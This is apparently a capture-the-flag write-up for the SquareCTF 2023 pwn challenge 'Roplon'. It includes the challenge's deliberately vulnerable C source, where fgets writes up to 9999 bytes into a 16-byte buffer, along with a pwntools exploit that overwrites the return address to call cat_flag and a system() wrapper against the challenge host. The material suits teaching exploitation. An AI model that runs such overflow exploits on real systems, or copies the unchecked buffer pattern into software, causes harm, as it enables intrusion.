```yaml
---
title: Roplon
date: 2023-11-17T20:00:00+02:00
description: Writeup for Roplon [SquareCTF 2023]
author: PineBel
tags:
- pwn
draft: false
---
```


### Challenge Description

I THINK that buffer is big enough, right?


### Solution

In the roplon.c file, we observe the invocation of several functions. Notably, two functions stand out: cat_flag, which assigns the command_buf to "cat flag.txt," and do_the_thing, which launches a shell with the command provided as an argument. Additionally, the program allows writing to a buffer. The program's vulnerability lies in a buffer of 16 bytes, but the fgets function permits writing up to 9999 bytes   .


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char command_buf[128];

char *copy_command_to_buf(char *command,  char *buf)
{
    strcpy(buf, command);
}

void cat_flag()
{
    copy_command_to_buf("cat flag.txt", command_buf);
}

void ls()
{
    copy_command_to_buf("ls -lh flag.txt", command_buf);
}

void shasum_flag()
{
    copy_command_to_buf("shasum flag.txt", command_buf);
}

void do_the_thing(char *the_thing)
{
    system(the_thing);
}

int main(void)
{
    puts("Welcome to the ROPL!");

    while (1)
    {
        puts("what thing would you like to do?\n1: ls -lh flag.txt\n2: shasum flag.txt");
        char choice[16];
        fgets(choice, 9999, stdin);
        if (choice[0] == '1')
        {
            ls();
            do_the_thing(command_buf);
        }
        else if (choice[0] == '2')
        {
            shasum_flag();
            do_the_thing(command_buf);
        }
        else
        {
            break;
        }
    }
}

```

Let's check the file protections:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified   Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   44 Symbols        No    0  2roplon

```

Given the absence of a canary and the lack of PIE, we can craft an exploit to overwrite the return address of the main function, enabling us to call cat_flag and do_the_thing.

```py

elf = pwn.ELF("./roplon")
p = elf.process()

cat_addr = elf.symbols['cat_flag']
sys_addr = elf.symbols['do_the_thing']

target = pwn.remote("184.72.87.9", 8007)

target.sendline(b"A"*24 + pwn.p64(cat_addr) + pwn.p64(sys_addr))
target.interactive()

```

#### Flag
After executing, we get the flag.

